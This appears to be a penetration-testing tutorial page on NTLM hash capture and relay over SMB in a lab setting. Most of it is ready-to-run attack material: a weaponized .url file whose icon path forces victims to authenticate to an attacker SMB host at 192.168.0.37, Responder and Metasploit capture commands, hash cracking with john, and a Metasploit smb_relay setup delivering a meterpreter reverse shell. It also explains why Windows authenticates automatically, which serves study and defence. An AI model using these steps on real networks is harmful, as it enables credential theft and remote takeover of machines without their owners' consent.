# NTLM Relay via SMB

SMB is a protocol which is widely used across organisations for file sharing purposes. It is not uncommon during internal penetration tests to discover a file share which contains sensitive information such as plain-text passwords and database connection strings.&#x20;

However even if a file share doesn’t contain any data that could be used to connect to other systems but it is configured with write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users or Meterpreter shells.

Let's walk through the example of using url links

## Execution via .URL

Create a weaponized .url file and upload it to the victim system:

```
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\192.168.0.37\%USERNAME%.icon
IconIndex=1
```

Create a listener on the attacking system:

```
responder -I eth1 -v
```

There are alternative way to Responder, Metasploit Framrwork has a module can be used to capture challenge-response password hashs from SMB Clients

```
auxiliary/server/capture/smb
```

Once the victim access the fileshare, the OS tries to authenticate to the attacker's malicious SMB listener on **192.168.0.37**. NTLMv2-SSP hash will be sent and capture.

<figure><img src="../.gitbook/assets/image (52).png" alt=""><figcaption><p>Responder</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (56).png" alt=""><figcaption><p>Metasploit smb capture</p></figcaption></figure>

Next we can proceed to crack this NTLMv2-SSP hash using john

<figure><img src="../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

## Why does it auto authenticates?

When parsing a shortcut, Windows reads the contents to determine the properties of the shortcut, including where the linked resource is what and what icon should represent it.

If the .URL files specifies an icon file located on a network resource (Above example), Windows will attempt to access the network location to retrieve the icon. This is where the automatic behaviour comes into play:

* Network Request: Windows makes a network request to the specified server (attacker smb server).
* Authentication: Since its a network resources, Windows will try to authenticate to the server using available credentials. This is typically handled using **NTLM authentication if kerberos is not configured.**
* Once the icon is retrieved, it is displayed in the shortcut's place in the file explorer.

## More relays

Let's assume we have 2 machines, victim1 user is able authentication to victim2 machine.

We can relay the victim1 hash to victim2 and return a meterpreter shell.

Firstly launch msfconsole

```
use exploit/windows/smb/smb_relay
set payload windows/x64/meterpreter/reverse_tcp
set relay_targets 192.168.0.50 --victim2
set smbdomain cyberrange.com
set smbshare public --victim2 writable share
exploit
```

after victim1 open up the malicious url shares, it will use the hash&#x20;

<figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

## Author

Ik0nw
